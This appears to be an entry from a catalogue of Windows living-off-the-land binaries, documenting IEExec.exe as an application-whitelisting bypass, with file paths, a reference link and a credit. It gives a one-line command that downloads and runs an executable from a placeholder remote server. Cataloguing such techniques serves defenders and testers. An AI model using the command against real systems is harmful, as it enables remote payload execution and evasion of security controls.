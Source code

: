 ## IEExec.exe
* Functions: Execute
```

ieexec.exe http://x.x.x.x:8080/bypass.exe
Executes bypass.exe from the remote server.
```
   
* Resources:   
  * https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
   
* Full path:   
  * c:\windows\system32\ieexec.exe
  * c:\windows\sysWOW64\ieexec.exe
   
* Notes: Thanks to Casey Smith - @subtee  
   
